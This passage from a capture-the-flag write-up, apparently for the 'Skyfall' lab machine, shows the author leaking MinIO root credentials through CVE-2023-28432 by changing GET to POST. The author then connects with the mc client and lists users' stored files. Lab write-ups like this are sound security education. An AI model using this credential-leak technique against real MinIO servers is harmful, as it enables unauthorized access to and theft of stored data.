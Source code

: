 At the bottom of these metrics, we find another endpoint:

<img src="../figs/skyfall11.png" alt="production endpoint">

After adding it to our `/etc/hosts` file and accessing it, we get a 403 response, which cannot be simply bypassed as we did with `/metric` endpoint. 

With a simple google search, I was able to find [this](https://nvd.nist.gov/vuln/detail/CVE-2023-28432) CVE which worked. This CVE references information disclosure vulnerability in MinIO's endpoint `http://prd23-s3-backend.skyfall.htb/minio/bootstrap/v1/verify`, which is another 403 bypass. Following [this](https://www.pingsafe.com/blog/cve-2023-28432-minio-information-disclosure-vulnerability/) article, we see that changing the request method from GET to POST leaks `MINIO_ROOT_PASSWORD` and `MINIO_ROOT_USER`:

<img src="../figs/skyfall12.png" alt="leaked info">

Now, I took a step back and started reading MinIO's documentation. I could find that there is a way to communicate with MinIO through a CLI interface. There is a command to interactively work with the S3 storage from the terminal with MinIO Client `mc`. We can check it how to use it [here](https://min.io/docs/minio/linux/reference/minio-mc.html). To install MinIO Client CLI, we run the following command in Linux:

```bash
curl https://dl.min.io/client/mc/release/linux-amd64/mc \
  --create-dirs \
  -o $HOME/minio-binaries/mc

chmod +x $HOME/minio-binaries/mc
export PATH=$PATH:$HOME/minio-binaries/

mc --help
```

In the documentation, we can see that to connect our machine to MinIO, we need to run `mc alias set myminio https://minioserver.example.net ACCESS_KEY SECRET_KEY`, where the access key being the `MINIO_ROOT_USER` and the secret key the `MINIO_ROOT_PASSWORD` values we found earlier. If everything is done correctly, we should get this message:

```bash
$ ./mc alias set myminio http://prd23-s3-backend.skyfall.htb <MINIO_ROOT_USER> <MINIO_ROOT_PASSWORD>
Added `myminio` successfully.
```

Now we can list the files with the following command:

```bash
$ ./mc ls --recursive myminio
[2023-11-08 05:35:28 GMT]  48KiB STANDARD askyy/Welcome.pdf
[2023-11-09 21:37:25 GMT] 2.5KiB STANDARD askyy/home_backup.tar.gz
[2023-11-08 05:35:36 GMT]  48KiB STANDARD btanner/Welcome.pdf
[2023-11-08 05:35:56 GMT]  48KiB STANDARD emoneypenny/Welcome.pdf
[2023-11-08 05:36:02 GMT]  48KiB STANDARD gmallory/Welcome.pdf
[2023-11-08 00:08:05 GMT]  48KiB STANDARD guest/Welcome.pdf
[2023-11-08 05:35:45 GMT]  48KiB STANDARD jbond/Welcome.pdf
[2023-11-08 05:36:09 GMT]  48KiB STANDARD omansfield/Welcome.pdf
[2023-11-08 05:35:51 GMT]  48KiB STANDARD rsilva/Welcome.pdf
```
